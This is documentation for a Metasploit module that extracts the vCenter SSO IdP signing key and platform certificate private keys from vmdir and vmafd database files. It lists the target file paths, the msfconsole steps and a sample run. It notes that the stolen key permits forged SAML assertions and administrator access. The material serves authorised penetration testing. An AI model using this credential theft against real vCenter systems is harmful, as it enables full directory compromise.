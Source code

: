 Grab certificates from the vCenter server vmdird or vmafd database files and adds them to loot.
This module will accept files from a live vCenter appliance or from a vCenter appliance backup
archive; either or both files can be supplied to the module depending on the situation. The module
will extract the vCenter SSO IdP signing credential from the vmdir database, which can be used to
create forged SAML assertions and access the SSO directory as an administrator. The vmafd service
contains the vCenter certificate store which from which the module will attempt to extract all vmafd
certificates that also have a corresponding private key. Portions of this module are based on
information published by Zach Hanley at Horizon3:

https://www.horizon3.ai/compromising-vcenter-via-saml-certificates/

## Vulnerable Application
This module is tested against the vCenter appliance but will probably work against Windows instances.
It has been tested against files from vCenter appliance versions 6.5, 6.7, and 7.0. The module will
work with files retrieved from a live vCenter system as well as files extracted from an unencrypted
vCenter backup archive.

## Verification Steps
You must possess the vmdir and/or vmafd database files from vCenter in order to use this module. The
files must be local to the system invoking the module. Where possible, you should provide the
`VC_IP` option to tag relevant loot entries with the IPv4 address of the originating system. If no
value is provided for `VC_IP` the module defaults to assigning the loopback IP `127.0.0.1`.

1. Acquire the vmdir and/or vmafd database files from vCenter (see below)
2. Start msfconsole
3. Do: `use auxiliary/admin/vmware/vcenter_offline_mdb_extract`
4. Do: `set vmdir_mdb <path to data.mdb>` if you are extracting from the vmdir database
5. Do: `set vmafd_db <path to afd.db>` if you are extracting from the vmafd database
6. Do: `set vc_ip <vCenter IPv4>` to attach the target vCenter IPv4 address to loot entries
7. Do: `dump`

## Options
### VMDIR_MDB

Path to the vmdird MDB database file on the local system. Example: `/tmp/data.mdb`

### VMAFD_DB

Path to the vmafd DB file on the local system. Example: `/tmp/afd.db`

### VC_IP

Optional parameter to set the IPv4 address associated with loot entries made by the module.

## Scenarios

### Acquire Database Files
This module targets the internal databases of vCenter vmdir (OpenLDAP Memory-Mapped Database) and
vmafd (SQLite3). On a live vCenter appliance, these files can be downloaded with root access from
the following locations:

`vmdir: /storage/db/vmware-vmdir/data.mdb`
`vmafd: /storage/db/vmware-vmafd/afd.db`
    
If you are extracting from a backup file, target files are available in the following archives:

`vmdir: lotus_backup.tar.gz`
`vmafd: config_files.tar.gz`

### Running the Module
Example run against database files extracted from vCenter appliance version 7.0 Update 3d:

```
msf > use auxiliary/admin/vmware/vcenter_offline_mdb_extract
msf auxiliary(admin/vmware/vcenter_offline_mdb_extract) > set vmdir_mdb /tmp/data.mdb
vmdir_mdb => /tmp/data.mdb
msf auxiliary(admin/vmware/vcenter_offline_mdb_extract) > set vmafd_db /tmp/afd.db
vmafd_db => /tmp/afd.db
msf auxiliary(admin/vmware/vcenter_offline_mdb_extract) > set vc_ip 192.168.100.70
vc_ip => 192.168.100.70
msf auxiliary(admin/vmware/vcenter_offline_mdb_extract) > dump

[*] Extracting vmwSTSTenantCredential from /tmp/data.mdb ...
[+] SSO_STS_IDP key: /home/cs137/.msf4/loot/20220512133836_default_192.168.100.70_idp_571080.key
[+] SSO_STS_IDP cert: /home/cs137/.msf4/loot/20220512133836_default_192.168.100.70_idp_564729.pem
[+] VMCA_ROOT cert: /home/cs137/.msf4/loot/20220512133836_default_192.168.100.70_vmca_721819.pem
[*] Extracting vSphere platform certificates from /tmp/afd.db ...
[+] __MACHINE_CERT key: /home/cs137/.msf4/loot/20220512133836_default_192.168.100.70___MACHINE_CERT_869237.key
[+] __MACHINE_CERT cert: /home/cs137/.msf4/loot/20220512133836_default_192.168.100.70___MACHINE_CERT_240839.pem
[+] DATA-ENCIPHERMENT key: /home/cs137/.msf4/loot/20220512133836_default_192.168.100.70_DATAENCIPHERMEN_350586.key
[+] DATA-ENCIPHERMENT cert: /home/cs137/.msf4/loot/20220512133836_default_192.168.100.70_DATAENCIPHERMEN_106169.pem
[+] HVC key: /home/cs137/.msf4/loot/20220512133836_default_192.168.100.70_HVC_825963.key
[+] HVC cert: /home/cs137/.msf4/loot/20220512133836_default_192.168.100.70_HVC_399928.pem
[+] MACHINE key: /home/cs137/.msf4/loot/20220512133836_default_192.168.100.70_MACHINE_995574.key
[+] MACHINE cert: /home/cs137/.msf4/loot/20220512133836_default_192.168.100.70_MACHINE_156797.pem
[+] SMS_SELF_SIGNED key: /home/cs137/.msf4/loot/20220512133836_default_192.168.100.70_SMS_SELF_SIGNED_169524.key
[+] SMS_SELF_SIGNED cert: /home/cs137/.msf4/loot/20220512133836_default_192.168.100.70_SMS_SELF_SIGNED_230704.pem
[+] VPXD key: /home/cs137/.msf4/loot/20220512133836_default_192.168.100.70_VPXD_370336.key
[+] VPXD cert: /home/cs137/.msf4/loot/20220512133836_default_192.168.100.70_VPXD_300599.pem
[+] VPXD-EXTENSION key: /home/cs137/.msf4/loot/20220512133836_default_192.168.100.70_VPXDEXTENSION_571196.key
[+] VPXD-EXTENSION cert: /home/cs137/.msf4/loot/20220512133836_default_192.168.100.70_VPXDEXTENSION_088742.pem
[+] VSPHERE-WEBCLIENT key: /home/cs137/.msf4/loot/20220512133836_default_192.168.100.70_VSPHEREWEBCLIEN_060718.key
[+] VSPHERE-WEBCLIENT cert: /home/cs137/.msf4/loot/20220512133836_default_192.168.100.70_VSPHEREWEBCLIEN_280013.pem
[+] WCP key: /home/cs137/.msf4/loot/20220512133836_default_192.168.100.70_WCP_057402.key
[+] WCP cert: /home/cs137/.msf4/loot/20220512133836_default_192.168.100.70_WCP_909204.pem
[*] Auxiliary module execution completed
msf auxiliary(admin/vmware/vcenter_offline_mdb_extract) > 
```
